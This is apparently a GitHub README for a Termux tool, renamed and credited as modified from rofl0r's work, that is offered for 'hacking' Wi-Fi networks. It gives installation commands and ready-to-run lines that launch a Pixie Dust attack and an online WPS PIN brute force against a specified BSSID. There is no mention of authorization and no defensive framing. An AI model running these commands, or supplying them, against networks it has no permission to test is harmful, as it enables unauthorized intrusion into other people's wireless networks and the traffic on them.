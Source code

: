 <h1 align="center">Wifi Hacker</h1>
<h4 align="center">Hack WIfi Using Termux! (Requires Root)</h4>

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python wpa-supplicant pixiewps iw -y
git clone https://github.com/showrovbd/wi-fuck 
cd wi-fuck 
pip3 install -r requirements.txt
chmod +x wi-fuck.py
```
#### Help : `sudo python wi-fuck.py --help`
#### Example : `sudo python wi-fuck.py -i wlan0 -K`

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wi-fuck.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wi-fuck.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wi-fuck.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

### License

````
MIT License

Copyright (c) 2023 🅼🅾🅽🆃🅾🆄🅲🅷🇧🇩

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
````

+ **IF FAILED TURN OFF LOCATION IF TURNED ON.**

Repo : <a href="https://github.com/MontouchUK/Wi-Fuck"> Here </a>

##### Modify History : rofl0r => 🅼🅾🅽🆃🅾🆄🅲🅷🇧🇩
<div align="center">
<h3>━━━━ Connect with me ━━━━</h3>
<a href="https://fb.com/montouch.mohaimin" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="Montouch" height="30" width="40" /></a>
</div>
<a href="https://github.com/sadman-11">  <img align="center" src="https://visitor-badge.laobi.icu/badge?style=flat-square&page_id=sadman-11.wifi-hack"></a>
